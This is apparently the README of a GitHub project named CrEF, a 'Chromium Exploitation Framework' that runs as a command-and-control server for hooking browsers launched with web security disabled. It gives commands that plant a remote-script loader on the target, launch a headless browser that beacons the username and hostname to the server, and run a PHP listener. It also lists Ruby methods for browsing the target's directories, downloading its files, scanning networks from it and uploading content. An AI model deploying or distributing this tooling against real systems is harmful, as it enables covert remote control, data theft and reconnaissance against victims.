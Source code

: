 <div align="center">
	<h1>CrEF - Chromium Exploitation Framework</h1>
	<img src="./assets/CrEF-logo.png" alt="CrEF-logo" title="CrEF-logo" />
</div>

---

> **Author**::      TW-D
>
> **Version**::     1.0.0

---

## DESCRIPTION

Proof of concept of a command and control server enabling hooking of Chromium-based browsers launched with the **--disable-web-security** flag.

## TESTED ON

>
> **Microsoft Windows 10 Professionnel 22H2 and Microsoft Edge 132**
>
> *%USERPROFILE%\AppData\Local\Microsoft\Edge\User Data\Default*
>

>
> **Ubuntu 22.04.5 LTS and Chromium 132/133 (snap)**
>
> *"${HOME}/snap/chromium/common/chromium/Default"*
>

## INSTALLATION

For Debian-based Linux distributions.

```bash
hacker@hacker-computer:~$ sudo apt-get install ruby ruby-dev php8.3-cli
hacker@hacker-computer:~$ sudo gem install tty nokogiri
```

## USAGE

This step is strongly recommended ; it is advised to rename the default folder "./www/**data-U2lsZW5jZSBpcyBnb2xkZW4K**/" by following the steps below.

```bash
hacker@hacker-computer:~/CrEF$ cd ./www/
hacker@hacker-computer:~/CrEF/www$ mv ./data-U2lsZW5jZSBpcyBnb2xkZW4K/ ./data-"$(< /dev/urandom tr -cd 'A-Za-z0-9' | head -c 32)"/
```

The hooked browsers must communicate with a web server; PHP was deliberately chosen for its popularity.

```bash
hacker@hacker-computer:~/CrEF$ php -d memory_limit=2G -d post_max_size=1G -d max_execution_time=300 -d upload_max_filesize=1G -S 0.0.0.0:8000 -t ./www/
```

After renaming the directory "./www/**data-U2lsZW5jZSBpcyBnb2xkZW4K**/" and starting the web server, you will also need to manually update the values in the **./cli.rb** *(line 3)*, **./www/index.php** *(lines 11 and 12)* and **./payloads/targets_list.rb** *(line 3)* files.

>
> Steps to hook a Microsoft Edge browser on Microsoft Windows:
>

```batch
C:\Users\target> ECHO ^<body^>^<script src="http://127.0.0.1:8000/index.js"^>^</script^> > %TMP%\x.html

[WINDOWS + r] msedge --disable-web-security --headless --no-first-run --user-data-dir="%TMP%" "file:///%TMP%\x.html?u=%USERNAME%&c=%COMPUTERNAME%"
```

>
> Steps to hook a Chromium browser on Debian-Based Linux distributions:
>

```bash
target@target-computer:~$ wget --quiet --output-document="-" http://127.0.0.1:8000/ > ./x.html
target@target-computer:~$ # OR
target@target-computer:~$ echo "<body><script src=\"http://127.0.0.1:8000/index.js\"></script>" > ./x.html

target@target-computer:~$ chromium --disable-web-security --headless --no-first-run --user-data-dir="/tmp/${RANDOM}/" "file://${HOME}/x.html?u=${USER}&c=$(hostname)"
```

> [!NOTE]
> *127.0.0.1* is a sample address used for local testing.

### CLI MODE

To command and control the hooked browsers, a CLI version is available. You can run this command to get started:

```bash
hacker@hacker-computer:~/CrEF$ ruby -W0 ./cli.rb
```

#### SCREENSHOT

![CrEF-cli](./assets/CrEF-cli.png "CrEF-cli")

### SCRIPTING MODE

For more precise actions, a SCRIPTING version is also available by loading the library **./lib/command_control.rb** and leveraging its methods along with programming.

```bash
hacker@hacker-computer:~/CrEF$ cd ./payloads/
hacker@hacker-computer:~/CrEF/payloads$ ruby -W0 ./targets_list.rb
[{"target_status"=>"🟢",
  "session_id"=>1,
  "remote_address"=>"127.0.0.1",
  "computer_name"=>"target-computer",
  "user_name"=>"target",
  "platform_name"=>"Linux",
  "last_seen"=>"05/13/2025 03:29:17 PM"}]
[...]
```

> [!NOTE]
> The *./targets_list.rb* file is a sample helper file.

#### METHODS

```ruby
# Loads the list of targets by parsing JSON files found in the data directory.
#
# @return [Array<Hash>] Returns an array of hashes representing target sessions with their information (excluding user_agent).
def load_targets

# Loads the data for a specific target session.
#
# @param target_session [Hash] A hash containing session information, including 'remote_address' and 'computer_name'.
# @return [Boolean, Hash] Returns a hash with the target data if the file exists, otherwise false.
def load_target(target_session)

# Loads the HTML tree structure for a specific target session.
#
# @param target_session [Hash] A hash containing session information, including 'remote_address' and 'computer_name'.
# @return [Array<Array>] Returns an array of arrays with details for each row of the HTML table (type, link, size, date).
def load_tree(target_session)

# Sends a command to access a specific URL within the target session.
#
# @param target_session [Hash] The target session hash.
# @param destination_url [String] The URL to access.
# @return [Boolean, String] Returns false if the command could not be loaded, or the path to the temporary file otherwise.
def access_url(target_session, destination_url)

# Sends a command to browse a specific directory within the target session.
#
# @param target_session [Hash] The target session hash.
# @param source_directory [String] The directory path to browse.
# @return [Boolean, String] Returns false if the command could not be loaded, or the path to the temporary file otherwise.
def browse_directory(target_session, source_directory)

# Sends a command to download a specific file from the target session.
#
# @param target_session [Hash] The target session hash.
# @param source_file [String] The full path to the file to download.
# @return [Boolean, String] Returns false if the command could not be loaded, or the path to the temporary file otherwise.
def download_file(target_session, source_file)

# Sends a command to scan a network address from the target session.
#
# @param target_session [Hash] The target session hash.
# @param destination_address [String] The network address to scan.
# @return [Boolean, String] Returns false if the command could not be loaded, or the path to the temporary file otherwise.
def scan_address(target_session, destination_address)

# Sends a command to upload a URL to the target session.
#
# @param target_session [Hash] The target session hash.
# @param source_url [String] The URL to upload.
# @return [Boolean, String] Returns false if the command could not be loaded, or the path to the temporary file otherwise.
def upload_url(target_session, source_url)
```

## LICENSE

[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg?style=flat&logo=GitHub&labelColor=1D272B&color=819188&logoColor=white)](./LICENSE-MIT)
[![License: Apache 2.0](https://img.shields.io/badge/License-Apache%202.0-blue.svg?style=flat&logo=GitHub&labelColor=1D272B&color=819188&logoColor=white)](./LICENSE-APACHE)

Licensed under either of [Apache License Version 2.0](./LICENSE-APACHE) or [The MIT License](./LICENSE-MIT) at your option.

## COPYRIGHT

© 2025, [TW-D](https://github.com/TW-D)
